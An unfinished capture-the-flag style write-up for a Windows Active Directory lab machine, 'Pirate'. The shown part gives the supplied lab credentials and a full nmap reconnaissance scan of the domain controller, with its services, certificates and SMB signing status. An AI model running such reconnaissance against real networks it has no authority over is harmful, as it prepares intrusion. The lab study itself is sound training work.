




# Pirate (Unfinished Writeup)

Difficulty: Hard
OS: Windows
Category: Offensive
Date: 2026-03-09
Added: 2026-10-01


I started Pirate with the supplied low-privilege account shown below. This is an **unfinished writeup**: my notes cover enumeration, machine-account access, gMSA credentials, and an internal pivot. They stop after coercion checks and do not document a completed relay or the final privilege-escalation path.
`pentest / p3nt3st2025!&`
## Scanning
I scanned the target to identify its domain services.
```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
80/tcp    open  http          syn-ack ttl 126 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-03-04 15:10:48Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Issuer: commonName=pirate-DC01-CA/domainComponent=pirate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-09T14:05:15
| Not valid after:  2026-06-09T14:05:15
| MD5:     5c8e b331 ef90 890a d8e3 feaa b53c 2910
| SHA-1:   0128 c655 2aed c190 efff d3eb a2fb 034b fa86 ab69
| SHA-256: a2c7 cecc 4854 8f57 a69c 7302 9621 8bb1 6796 ee2d ad60 c34b b005 9a00 a1e6 3358
| -----BEGIN CERTIFICATE-----
| MIIGKDCCBRCgAwIBAgITdAAAAAP6wnCqSNol9QAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGcGlyYXRl
| MRcwFQYDVQQDEw5waXJhdGUtREMwMS1DQTAeFw0yNTA2MDkxNDA1MTVaFw0yNjA2
| MDkxNDA1MTVaMBoxGDAWBgNVBAMTD0RDMDEucGlyYXRlLmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAMnSrMfKeTD3rXSf5Vtyri9jELPEvEcLNbDF
| MoMV9vFYfbJgCd4a1xRs1Zc1AKGti9l45w2WYGI8POtp9oBlg0sb0+9LX07mxLr3
| 28BJ2VNxhV6JhOMMSBRlQ4K5B7vKzgXw24CIfPUHrfPJJ3G6cjEDawDLQErlRFJ7
| p/fEgs5CTePFrcpiB94JBoaV1a+kBiY7a2sHGZXWy4alXoP/a0GEEdzcSPFj5MVV
| jA8NvEmptFG+SzZO9szR03rQRzhJHsVTQHgjw0+2NOi5UJ3GlhUiFzynSrfRae45
| qpqRzQ6wLYnlKvVv2OIujkgYBaCPvmTJ2ZGkD+pF5pILfcvdBn0CAwEAAaOCAzkw
| ggM1MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFAnRcvhGgC93
| sCJqS7xJfQe20VzfMB8GA1UdIwQYMBaAFLtY4D2HzTfY9jUtfvRgBNVPOZsIMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPXBpcmF0ZS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9cGlyYXRlLERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049cGlyYXRlLURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9cGlyYXRlLERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBDEVbnRlVqPSpJn
| m1iCmy/sgg9EQzAxLnBpcmF0ZS5odGIwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEE
| AYI3GQIBoDAELlMtMS01LTIxLTQxMDc0MjQxMjgtNDE1ODA4MzU3My0xMzAwMzI1
| MjQ4LTEwMDAwDQYJKoZIhvcNAQELBQADggEBAJv8X9T3HMKJ0L6m6eaHhd/X7C4d
| Ax38d6E6LbKYFyeK/UvbuFHCbMP9idfKxOEXsxKAvbK5F2rSkrlEeRqnnU68WkcU
| AG/gjmWOt1GFayNUGeUNteP1B8tpAv3V4BisIjOaE7oflz7+z1TImhcyghBbpG+n
| EviKNA3eQmxPpvcpmGvlg+70A1EghOfHOLr/3/ezfUmGUaYMONadSMM1rgN0Tcux
| 4dX2LDo4PoAbEY/X9z0C/mUJGaIw0NRaYwYnnXJSDaj42juZvgGbomE2JB5Tu+gJ
| hriiFzSqPhNk/jSlWx8H6TindyH+xyK9q5xa6X20tmEKYVtS2aAcSmt2URI=
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-04T15:12:27+00:00; +7h00m03s from scanner time.
443/tcp   open  https?        syn-ack ttl 126
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-04T15:12:27+00:00; +7h00m04s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Issuer: commonName=pirate-DC01-CA/domainComponent=pirate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-09T14:05:15
| Not valid after:  2026-06-09T14:05:15
| MD5:     5c8e b331 ef90 890a d8e3 feaa b53c 2910
| SHA-1:   0128 c655 2aed c190 efff d3eb a2fb 034b fa86 ab69
| SHA-256: a2c7 cecc 4854 8f57 a69c 7302 9621 8bb1 6796 ee2d ad60 c34b b005 9a00 a1e6 3358
| -----BEGIN CERTIFICATE-----
| MIIGKDCCBRCgAwIBAgITdAAAAAP6wnCqSNol9QAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGcGlyYXRl
| MRcwFQYDVQQDEw5waXJhdGUtREMwMS1DQTAeFw0yNTA2MDkxNDA1MTVaFw0yNjA2
| MDkxNDA1MTVaMBoxGDAWBgNVBAMTD0RDMDEucGlyYXRlLmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAMnSrMfKeTD3rXSf5Vtyri9jELPEvEcLNbDF
| MoMV9vFYfbJgCd4a1xRs1Zc1AKGti9l45w2WYGI8POtp9oBlg0sb0+9LX07mxLr3
| 28BJ2VNxhV6JhOMMSBRlQ4K5B7vKzgXw24CIfPUHrfPJJ3G6cjEDawDLQErlRFJ7
| p/fEgs5CTePFrcpiB94JBoaV1a+kBiY7a2sHGZXWy4alXoP/a0GEEdzcSPFj5MVV
| jA8NvEmptFG+SzZO9szR03rQRzhJHsVTQHgjw0+2NOi5UJ3GlhUiFzynSrfRae45
| qpqRzQ6wLYnlKvVv2OIujkgYBaCPvmTJ2ZGkD+pF5pILfcvdBn0CAwEAAaOCAzkw
| ggM1MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFAnRcvhGgC93
| sCJqS7xJfQe20VzfMB8GA1UdIwQYMBaAFLtY4D2HzTfY9jUtfvRgBNVPOZsIMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPXBpcmF0ZS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9cGlyYXRlLERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049cGlyYXRlLURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9cGlyYXRlLERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBDEVbnRlVqPSpJn
| m1iCmy/sgg9EQzAxLnBpcmF0ZS5odGIwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEE
| AYI3GQIBoDAELlMtMS01LTIxLTQxMDc0MjQxMjgtNDE1ODA4MzU3My0xMzAwMzI1
| MjQ4LTEwMDAwDQYJKoZIhvcNAQELBQADggEBAJv8X9T3HMKJ0L6m6eaHhd/X7C4d
| Ax38d6E6LbKYFyeK/UvbuFHCbMP9idfKxOEXsxKAvbK5F2rSkrlEeRqnnU68WkcU
| AG/gjmWOt1GFayNUGeUNteP1B8tpAv3V4BisIjOaE7oflz7+z1TImhcyghBbpG+n
| EviKNA3eQmxPpvcpmGvlg+70A1EghOfHOLr/3/ezfUmGUaYMONadSMM1rgN0Tcux
| 4dX2LDo4PoAbEY/X9z0C/mUJGaIw0NRaYwYnnXJSDaj42juZvgGbomE2JB5Tu+gJ
| hriiFzSqPhNk/jSlWx8H6TindyH+xyK9q5xa6X20tmEKYVtS2aAcSmt2URI=
|_-----END CERTIFICATE-----
2179/tcp  open  vmrdp?        syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-04T15:12:27+00:00; +7h00m03s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Issuer: commonName=pirate-DC01-CA/domainComponent=pirate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-09T14:05:15
| Not valid after:  2026-06-09T14:05:15
| MD5:     5c8e b331 ef90 890a d8e3 feaa b53c 2910
| SHA-1:   0128 c655 2aed c190 efff d3eb a2fb 034b fa86 ab69
| SHA-256: a2c7 cecc 4854 8f57 a69c 7302 9621 8bb1 6796 ee2d ad60 c34b b005 9a00 a1e6 3358
| -----BEGIN CERTIFICATE-----
| MIIGKDCCBRCgAwIBAgITdAAAAAP6wnCqSNol9QAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGcGlyYXRl
| MRcwFQYDVQQDEw5waXJhdGUtREMwMS1DQTAeFw0yNTA2MDkxNDA1MTVaFw0yNjA2
| MDkxNDA1MTVaMBoxGDAWBgNVBAMTD0RDMDEucGlyYXRlLmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAMnSrMfKeTD3rXSf5Vtyri9jELPEvEcLNbDF
| MoMV9vFYfbJgCd4a1xRs1Zc1AKGti9l45w2WYGI8POtp9oBlg0sb0+9LX07mxLr3
| 28BJ2VNxhV6JhOMMSBRlQ4K5B7vKzgXw24CIfPUHrfPJJ3G6cjEDawDLQErlRFJ7
| p/fEgs5CTePFrcpiB94JBoaV1a+kBiY7a2sHGZXWy4alXoP/a0GEEdzcSPFj5MVV
| jA8NvEmptFG+SzZO9szR03rQRzhJHsVTQHgjw0+2NOi5UJ3GlhUiFzynSrfRae45
| qpqRzQ6wLYnlKvVv2OIujkgYBaCPvmTJ2ZGkD+pF5pILfcvdBn0CAwEAAaOCAzkw
| ggM1MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFAnRcvhGgC93
| sCJqS7xJfQe20VzfMB8GA1UdIwQYMBaAFLtY4D2HzTfY9jUtfvRgBNVPOZsIMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPXBpcmF0ZS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9cGlyYXRlLERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049cGlyYXRlLURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9cGlyYXRlLERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBDEVbnRlVqPSpJn
| m1iCmy/sgg9EQzAxLnBpcmF0ZS5odGIwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEE
| AYI3GQIBoDAELlMtMS01LTIxLTQxMDc0MjQxMjgtNDE1ODA4MzU3My0xMzAwMzI1
| MjQ4LTEwMDAwDQYJKoZIhvcNAQELBQADggEBAJv8X9T3HMKJ0L6m6eaHhd/X7C4d
| Ax38d6E6LbKYFyeK/UvbuFHCbMP9idfKxOEXsxKAvbK5F2rSkrlEeRqnnU68WkcU
| AG/gjmWOt1GFayNUGeUNteP1B8tpAv3V4BisIjOaE7oflz7+z1TImhcyghBbpG+n
| EviKNA3eQmxPpvcpmGvlg+70A1EghOfHOLr/3/ezfUmGUaYMONadSMM1rgN0Tcux
| 4dX2LDo4PoAbEY/X9z0C/mUJGaIw0NRaYwYnnXJSDaj42juZvgGbomE2JB5Tu+gJ
| hriiFzSqPhNk/jSlWx8H6TindyH+xyK9q5xa6X20tmEKYVtS2aAcSmt2URI=
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-04T15:12:27+00:00; +7h00m04s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Issuer: commonName=pirate-DC01-CA/domainComponent=pirate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-09T14:05:15
| Not valid after:  2026-06-09T14:05:15
| MD5:     5c8e b331 ef90 890a d8e3 feaa b53c 2910
| SHA-1:   0128 c655 2aed c190 efff d3eb a2fb 034b fa86 ab69
| SHA-256: a2c7 cecc 4854 8f57 a69c 7302 9621 8bb1 6796 ee2d ad60 c34b b005 9a00 a1e6 3358
| -----BEGIN CERTIFICATE-----
| MIIGKDCCBRCgAwIBAgITdAAAAAP6wnCqSNol9QAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGcGlyYXRl
| MRcwFQYDVQQDEw5waXJhdGUtREMwMS1DQTAeFw0yNTA2MDkxNDA1MTVaFw0yNjA2
| MDkxNDA1MTVaMBoxGDAWBgNVBAMTD0RDMDEucGlyYXRlLmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAMnSrMfKeTD3rXSf5Vtyri9jELPEvEcLNbDF
| MoMV9vFYfbJgCd4a1xRs1Zc1AKGti9l45w2WYGI8POtp9oBlg0sb0+9LX07mxLr3
| 28BJ2VNxhV6JhOMMSBRlQ4K5B7vKzgXw24CIfPUHrfPJJ3G6cjEDawDLQErlRFJ7
| p/fEgs5CTePFrcpiB94JBoaV1a+kBiY7a2sHGZXWy4alXoP/a0GEEdzcSPFj5MVV
| jA8NvEmptFG+SzZO9szR03rQRzhJHsVTQHgjw0+2NOi5UJ3GlhUiFzynSrfRae45
| qpqRzQ6wLYnlKvVv2OIujkgYBaCPvmTJ2ZGkD+pF5pILfcvdBn0CAwEAAaOCAzkw
| ggM1MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFAnRcvhGgC93
| sCJqS7xJfQe20VzfMB8GA1UdIwQYMBaAFLtY4D2HzTfY9jUtfvRgBNVPOZsIMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPXBpcmF0ZS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9cGlyYXRlLERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049cGlyYXRlLURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9cGlyYXRlLERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBDEVbnRlVqPSpJn
| m1iCmy/sgg9EQzAxLnBpcmF0ZS5odGIwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEE
| AYI3GQIBoDAELlMtMS01LTIxLTQxMDc0MjQxMjgtNDE1ODA4MzU3My0xMzAwMzI1
| MjQ4LTEwMDAwDQYJKoZIhvcNAQELBQADggEBAJv8X9T3HMKJ0L6m6eaHhd/X7C4d
| Ax38d6E6LbKYFyeK/UvbuFHCbMP9idfKxOEXsxKAvbK5F2rSkrlEeRqnnU68WkcU
| AG/gjmWOt1GFayNUGeUNteP1B8tpAv3V4BisIjOaE7oflz7+z1TImhcyghBbpG+n
| EviKNA3eQmxPpvcpmGvlg+70A1EghOfHOLr/3/ezfUmGUaYMONadSMM1rgN0Tcux
| 4dX2LDo4PoAbEY/X9z0C/mUJGaIw0NRaYwYnnXJSDaj42juZvgGbomE2JB5Tu+gJ
| hriiFzSqPhNk/jSlWx8H6TindyH+xyK9q5xa6X20tmEKYVtS2aAcSmt2URI=
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49905/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49929/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49952/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.98%I=7%D=3/4%Time=69A7E913%P=x86_64-pc-linux-gnu%r(DNS-S
SF:D-TCP,30,"\0\.\0\0\x80\x82\0\x01\0\0\0\0\0\0\t_services\x07_dns-sd\x04_
SF:udp\x05local\0\0\x0c\0\x01");
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-03-04T15:11:47
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 8617/tcp): CLEAN (Timeout)
|   Check 2 (port 41031/tcp): CLEAN (Timeout)
|   Check 3 (port 49695/udp): CLEAN (Timeout)
|   Check 4 (port 64457/udp): CLEAN (Timeout)
